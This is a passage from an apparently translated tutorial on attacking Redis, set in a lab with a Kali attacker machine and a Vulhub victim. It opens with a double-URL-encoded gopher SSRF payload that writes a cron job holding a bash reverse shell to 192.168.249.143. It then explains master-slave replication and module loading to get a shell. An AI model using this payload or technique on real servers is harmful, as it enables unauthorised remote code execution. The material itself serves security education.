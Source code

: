  - Perform the generated `url` quadratic encoding (because we use the GET method to send the payload), and then use the `SSRF` vulnerability on the victim server to use the quadratic encoding `payload` to attack:

```bash
gopher%3A%2F%2F192.168.249.145%
3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25244%250D%250Assrf%250D%250A%252465%250D%250A%250A%250A%250A%250A %252A%2F1%2520%252A%2520%252A%2520%252A%2520%252A%2520bash%2520-i%2520%253E%2526%2520%2Fdev%2Ftcp%2F192.168.249.143%2F9999%25200%253E%25261%250A%250A%250A%250D%250A%252 A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252415%250D%250A%2Fvar%2Fspool%2Fcron%250D%250A%252A4%250D%250A%25246% 250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25244%250D%250Aroot%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%0D%0A
```

# Redis Master-slave Replication RCE
## Redis Master-slave Copy Concept
Master-slave replication refers to copying the data of a `Redis` server to other `Redis` servers. The former is called `master` (master node), and the latter is called `slave` (slave node). Data replication is one-way and can only be from the master node to the slave node. This is a distributed work plan that replaces time with space, which can reduce the pressure of host cache and avoid single point of failure. Through data replication, a `Redis` master can mount multiple `slave`, and multiple `slave` can also mount multiple `slave` under `slave` to form a multi-layer nested structure. All write operations are performed in the `master` instance. After the `master` is executed, the write instructions are distributed to the `slave` node hanging below it. If there is a nested `slave` node under the `slave`, The received write instructions will be further distributed to the `slave` hanging below you.

<div align=center><img src="./images/12.png"></div>

Turn on three ways of master-slave copying:
 - Configuration file: Add `slaveof <masterip> <masterport>` to the configuration file of the server.
 - Start command: After starting the command `redis-server` is added `--slaveof <masterip> <masterport>`.
 - Client command: After the `Redis` server is started, execute the command `slaveof <masterip> directly through the client
<masterport>`, then the `Redis` instance becomes a slave.

## Redis Master-slave Copy Getshell
After `Reids 4.x`, Redis` has added a module function. Through external expansion, a new `Redis` command can be implemented in `Redis`. Through external expansion (.so), a function for executing system commands can be created in `Redis`. [Vulnerability Detailed Exploit Principle and Exploit Code Writing](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## Vulnerability Demo
Experimental environment:
 - Attack aircraft Kali-Linux: 192.168.249.143
 - Victim machine: [Vulnhub-redis](https://github.com/vulhub/vulhub/tree/master/redis/4-unacc)

